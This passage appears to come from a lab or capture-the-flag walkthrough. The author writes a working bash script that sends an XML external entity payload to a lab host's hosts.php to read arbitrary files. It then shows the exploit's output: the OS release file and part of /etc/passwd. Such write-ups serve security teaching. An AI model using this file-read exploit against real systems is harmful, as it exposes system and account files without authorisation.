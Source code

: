     There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
    

Perfect. Write a quick bash script so were not editing files every time.

`xxe_get_file.sh`:

    
    
    #!/bin/bash
    
    if [ "$#" == "1" ]; then
        file=$1
    else
        echo "$0 [file]"
        exit 1
    fi
    
    exploit="<!DOCTYPE foo[
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM \"$file\"> ]>
    <details>
        <subnet_mask>&xxe;</subnet_mask>
        <test></test>
    </details>"
    
    echo "$exploit" > tmp
    curl -s -X POST -d @tmp http://10.10.10.78/hosts.php -x http://127.0.0.1:8080 | tee $(basename "$file")
    rm tmp
    
    
    
    root@kali# ./xxe_get_file.sh /etc/lsb-release
    
    There are 4294967294 possible hosts for DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
    

Now grab `/etc/passwd` to reveal accounts on the box:

    
    
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    messagebus:x:106:110::/var/run/dbus:/bin/false
    uuidd:x:107:111::/run/uuidd:/bin/false
    lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
    whoopsie:x:109:117::/nonexistent:/bin/false
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
    avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
    speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false